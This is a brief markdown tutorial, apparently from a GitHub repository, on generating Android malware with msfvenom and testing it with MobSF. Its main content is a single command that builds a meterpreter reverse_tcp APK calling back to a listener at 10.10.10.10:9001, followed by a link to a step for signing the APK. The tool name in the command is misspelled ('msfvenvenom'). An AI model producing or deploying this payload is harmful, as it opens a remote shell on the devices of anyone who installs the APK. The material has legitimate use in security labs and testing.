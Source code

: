# Generate and test android malware using MSfvenon & MobSF

## Generate Android payload (https://shell.anir0y.in/)

login to your kali linux machine, open terminal and type this command 

```bash
msfvenvenom --platform android -p android/meterpreter/reverse_tcp lhost=10.10.10.10 lport=9001 R -o malicious.apk
```

it will generate a apk file. 

## addtional step [sign the apk file](singapk.md)


